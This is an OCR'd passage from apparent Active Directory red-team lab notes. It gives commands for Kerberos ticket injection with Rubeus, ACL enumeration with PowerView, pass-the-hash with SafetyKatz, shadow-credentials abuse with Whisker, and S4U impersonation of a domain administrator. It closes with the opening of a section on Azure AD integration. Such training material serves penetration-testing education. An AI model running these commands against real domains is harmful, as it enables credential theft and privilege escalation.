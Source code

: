Inject the TGT in the current session or use the NTLM hash

```
Rubeus.exe ptt /ticket:doIGgDCCBnygAwIBBaEDAgEW...
```

#### Abusing Computer Object

Enumerate the permissions.

```
Find-InterestingDomainAcl -ResolveGUIDs |
?{$_.IdentityReferenceName -match 'mgmtadmin’}
```

Add the Shadow Credentials.

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:mgmtadmin
/domain:us.techcorp.local
/aes256:32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b4
19db24c00f /run:cmd.exe" "exit"
```

```
Whisker.exe add /target:us-helpdesk$
```


Using PowerView, see if the Shadow Credential is added.

```
Get-DomainComputer -Identity us-helpdesk
```

Request the TGT by leveraging the certificate.

```
Rubeus.exe asktgt /user:us-helpdesk$
/certificate:MIIJ0AIBAzCCCYwGCSqGSIb...
/password:"ViGFoZJa..." /domain:us.techcorp.local
/dc:US-DC.us.techcorp.local /getcredentials /show
```

Request and Inject the TGS by impersonating the user.

```
Rubeus.exe s4u /dc:us-dc.us.techcorp.local
/ticket:doIGkDCCBoygAwIBBaEDAgEW...
/impersonateuser:administrator /ptt /self
/altservice:cifs/us-helpdesk
```


#### Attacking Azure AD Integration

• Azure AD is a popular method to extend identity management from on-
premises AD to Microsoft's Azure offerings.

• Many enterprises use their on-prem AD identities to access Azure
applications.
• "A single user identity for authentication and authorization to all
resources, regardless of location...is hybrid identity."

